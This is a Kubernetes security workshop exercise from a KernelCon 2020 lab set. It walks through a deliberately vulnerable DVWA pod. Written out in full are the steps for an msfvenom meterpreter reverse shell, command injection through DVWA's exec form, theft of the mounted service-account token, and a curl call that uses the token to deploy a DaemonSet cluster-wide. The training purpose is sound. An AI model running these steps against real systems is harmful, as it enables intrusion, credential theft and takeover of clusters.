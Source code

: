 # Exercise 15 (Access Control)

## Preface:
This exercise is not meant to provide you with an extensive "hacking" experience! We all know the majority of pen testing issues come from misconfiguration. Therefore we assume this container is exploitable so we will focus on post exploitation. If you do not wish to do any of the ___metasploit___ steeps, just skip to [This section](#shell) to pick it up at the shell.

Note you will still need to setup the container etc.

### Env Setup
- cd into the ``` KernelCon2020K8s/Exercises/Break/Files/break_e15 ``` folder and deploy the pod we will be working with.

```bash
kubectl apply -f setup.yaml
```
- this should deploy the needed resources including ingress.
- once running you should be able to access the site through the ingress port [https://k8s.kernelcon2020.org/](https://k8s.kernelcon2020.org/)
- login with the credentials ___"admin"___ and ___"admin"___

![Login1](Files/images/dvwa_login1.png)

- once logged in, scroll to the bottom and click the "Create / Reset DB" button to initialize the DB

![Login2](Files/images/dvwa_login2.png)

- When that task is complete, log back in as ___admin___ and ___password___

- continue to "MSF Setup" if you wish to breach the container via remote shell. 
- or skip down to the [Shell](#shell)

### MSF Setup

- build a meterpreter payload and put it on your desktop
- make it executable
- Make sure msf is setup and installed correctly
- enter the msfconsole

```bash
# prep the env.

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$(ifconfig eth0 |grep -i "inet " |awk '{print $2}') LPORT=4545 -f elf > ~/Desktop/rshell
chmod 0777 ~/Desktop/rshell
apt update; apt install metasploit-framework
gem install bundler
msfconsole
```

- Good now that you are in the msf console, we should setup a handler and payload
- add our eth0 IP and a port to the options
- set the ExitOnSession to false
- start listening for sessions.

```bash
### form inside msfconsole, start a 
msf> use exploit/multi/handler
msf> set payload linux/x86/meterpreter/reverse_tcp
msf> set lhost YOUR_ETH0_IP_ADDRESS
msf> set lport 4545
msf> set ExitOnSession false
msf> exploit -j
```

# Setup remote shell
- from within the "DVWA" gui, locate the "file upload" button and click it.

![File Upload](Files/images/dvwa_file_upload1.png)

- you should have an ___msfvenom___ payload on your Desktop for earlier, upload it and take not of the destination.

![File Upload](Files/images/dvwa_file_upload2.png)

- now find the "" button so we can chmod and run the file we just uploaded.

![Exec Cmd](Files/images/dvwa_exec.png)

- first command should be:
``` 127.0.0.1;chmod 0777 /var/www/html/hackable/uploads/rshell ```

- second command should be:
``` 127.0.0.1;/var/www/html/hackable/uploads/rshell ```

- you should see a session start as soon as you run the command

![MSF Sessions](Files/images/msfconsole_sessions.png)

- enter the session, then enter the shell
- spawn a new tty

```bash
### once seeeion is open
sessions 1

### in session
shell

### spawn new tty
/bin/sh -i

```
# Shell

#### Note by default (unless you change it) k8s will auto mount the default service account for a namespace INTO EVERY POD in that namespace!!!

#### you can get at this info from inside the container via the file system @ ```/run/secrets/kubernetes.io/serviceaccount/token``` and you can get the api-server info via the two environment variables ___$KUBERNETES_SERVICE_HOST___ ___$KUBERNETES_SERVICE_PORT___

### If you skipped the remote exploit, just run this command within your terminal:
```bash
kubectl exec -it $(kubectl get pods -l app=dvwa -o=jsonpath='{.items[0].metadata.name}') /bin/bash
```  

## Now from within the shell ...

```bash
### is curl here ?

curl -k https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/default/pods/

### nope! but apt is ;-)

apt-get update && apt-get install curl jq

### now that we have curl we can grab the service account that was automaticly mounted into the container ...
export TOKEN=$(cat /run/secrets/kubernetes.io/serviceaccount/token)

### now that we have a token we can check our permissions

curl -k -H "Authorization: Bearer $TOKEN" https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/default/pods/


curl -k -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d '{"kind":"DaemonSet","apiVersion":"apps/v1","metadata":{"name":"remnux","creatonTimestamp":null,"annotations":{"deprecated.daemonset.template.generation":"0"}},"spec":{"selector":{"matchLabels":{"name":"remnux"}},"template":{"metadata":{"creationTimestamp":null,"labels":{"name":"remnux"}},"spec":{"containers":[{"name":"remnux","image":"remnux/metasploit","resources":{"limits":{"memory":"200Mi"},"requests":{"cpu":"100m","memory":"200Mi"}},"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"Always"}],"restartPolicy":"Always","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","nodeSelector":{"type":"prod"},"securityContext":{},"schedulerName":"default-scheduler"}},"updateStrategy":{"type":"RollingUpdate","rollingUpdate":{"maxUnavailable":1}},"revisionHistoryLimit":10},"status":{"currentNumberScheduled":0,"numberMisscheduled":0,"desiredNumberScheduled":0,"numberReady":0}}' https://$KUBERNETES_SERVICE_HOST/apis/apps/v1/namespaces/default/daemonsets

```

- Wow look at that, because we had write access, we just deployed a "DaemonSet" of a container with reverse shells. (DaemonSets get deployed out to all nodes in a cluster [of a specific label] )



## Review:



## Clean up:
- Remove the "DaemonSet"
``` kubectl delete ds remnux ```



 [Return to schedule](../../Docs/SCHEDULE.md)